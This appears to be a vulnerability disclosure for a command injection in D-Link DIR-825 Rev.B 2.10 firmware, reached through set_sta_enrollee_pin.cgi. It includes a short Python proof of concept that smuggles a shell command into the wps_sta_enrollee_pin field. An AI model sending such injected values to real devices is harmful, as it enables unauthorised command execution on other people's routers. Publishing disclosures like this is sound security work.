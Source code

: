 ### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/set_sta_enrollee_pin.cgi
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'set_sta_enrollee_pin.cgi'
   8
   9 command = "a'$(echo 3 > /tmp/hello3)'b"
  10
  11 payload = {
  12     "wps_sta_enrollee_pin": command,
  13     "html_response_page": "do_wps.asp",
  14     "html_response_return_page": "do_wps.asp",
  15 }
  16
  17 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 enrollee-pin-comm.py`

### Example output
![Example output](./img/enrollee-pin-command-inject.jpg)
